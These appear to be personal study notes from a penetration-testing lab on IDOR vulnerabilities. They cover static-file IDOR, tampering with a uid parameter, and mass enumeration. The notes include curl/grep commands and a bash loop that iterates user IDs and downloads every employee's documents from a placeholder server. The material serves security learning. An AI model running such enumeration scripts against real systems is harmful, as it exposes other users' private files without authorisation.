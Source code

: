 we might guess that the file names are using the userid and the month/year as part of the file name, which might let us fuzz for other files   
this is a basic type of IDOR and is called `static file IDOR` 

we can find that the page is setting our user id from a GET parameter like `documents.php?uid=1`   
we can try to change this value and see if we don't get an access denied error  

if we make the change and don't notice any difference, we need to pay attention to the page details and keep and eye on the source code and page size   
for example we can look and see that changing to `uid=2` will result in different files 

another example of this is instead of using the user id itself the app will user filters specific to the user like `uid_filter=1`   

### Mass enumeration 

we can first look at any of the links in the page to see their source code: 

```html
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

we want to pick out a phrase like `<li class='pure-tree_link'>` to be able to grep for in our output from: 

```shell-session
curl -s "http://SERVER_IP:PORT/documents.php?uid=1" | grep "<li class='pure-tree_link'>"
```

then we can further filter to only get the resource names: 

```shell-session
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"
```

then for this example we can use a simple loop to go over the uid parameter and try to return all the employee documents: 

```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
	for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
		wget -q $url/$link
	done
done
```

running this script will download all the employee documents from 1-10 and exploit the IDOR to mass enumerate the documents of all employees   

we can do the same in burp by creating a list of employee numbers: 

![](Images/Pasted%20image%2020240225174908.png)
